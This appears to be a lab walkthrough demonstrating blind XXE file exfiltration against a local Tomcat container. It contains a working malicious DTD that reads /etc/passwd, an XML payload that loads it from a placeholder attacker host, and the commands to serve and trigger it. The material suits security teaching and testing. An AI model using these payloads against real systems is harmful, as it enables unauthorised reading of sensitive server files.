

# Data Exfiltration via Blind XXE

## Scenario 
Attacker has read access to server logs, and the application is vulnerable to blind XXE

## Steps

1. Create `evil.dtd` file. Paste following contents:

    ```XML
    <!ENTITY % data SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%data;'>">
    %eval;
    %error;
    ```

2. As an attacker, serve the malicious DTD file

    ```python
    python3 -m http.server 2122
    ```

3. Create `evil.xml` file, as shown below. Include a link to the malicious DTD file served on attacker's server:
   
   ```XML
    <!DOCTYPE doc [
    <!ENTITY % ent SYSTEM "http://ATTACKER_IP_ADDRESS:2122/evil.dtd">
    %ent;
    ]>
    <x>Dummy</x>
   ```

4. Find the container ID (e.g., `d11d200f5264`) of running Tomcat container

        docker ps -a | grep tomcat

5. Move the contents of `evil.xml` file into `employees.xml` file (that resides inside the Tomcat container)

    ```bash
    docker cp evil.xml d11d200f5264:/var/tmp/employees.xml
    ```

6. Navigate to http://localhost:1234/HelloXML/HelloXMLServlet

    

7. Read the server logs

        docker logs TOMCAT_CONTAINER_ID

    

    Notice that the contents of `/etc/passwd` file are dumped into the server logs. Similarly, contents of other sensitive files could also be read.
